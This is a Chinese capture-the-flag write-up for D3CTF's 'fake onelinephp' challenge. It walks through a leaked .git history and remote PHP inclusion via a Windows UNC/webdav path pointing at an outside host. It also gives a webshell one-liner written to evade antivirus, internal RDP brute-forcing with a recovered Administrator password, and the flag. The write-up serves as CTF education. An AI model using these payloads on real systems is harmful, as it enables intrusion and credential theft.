 题目的代码和hitcon 2018 one-line-php-challenge一样，首先考虑session包含，但是无法复现，主机是windows系统，猜不到临时文件目录。
随便扫扫发现.git泄露，用Git_Extract可以得到完整的git历史记录。发现hint1.txt、hint2.txt、dict.txt。大概意思是要用dict里的密码连接到内网机器上。题目中有include_path和allow_url_include的限制导致RCE不了，但是windows机器特有的UNC路径可以绕过这些限制。可以用smb或是webdav协议。

> http://7317da5e40.fakeonelinephp.d3ctf.io/?orange=//202.112.28.106@8980//webdav/ix.php

然后发现phpinfo可以执行，但一句话执行不了，可能是Windows Defender当成木马杀掉了。可以用这个绕过查杀:`@<?php system(file_get_contents("php://input"));?>`，可执行任意命令。`ping 172.19.97.8`，内网是通的，接下来就是下载文件开3389端口转发，暴破内网rdp：
```
[8389][rdp] host: 172.19.97.8   login: Administrator   password: eDHU27TlY6ugslV
```
得到flag：d3ctf{Sh3ll_fr0m_ur1111_inc1ude!1!!!_soCoooool}
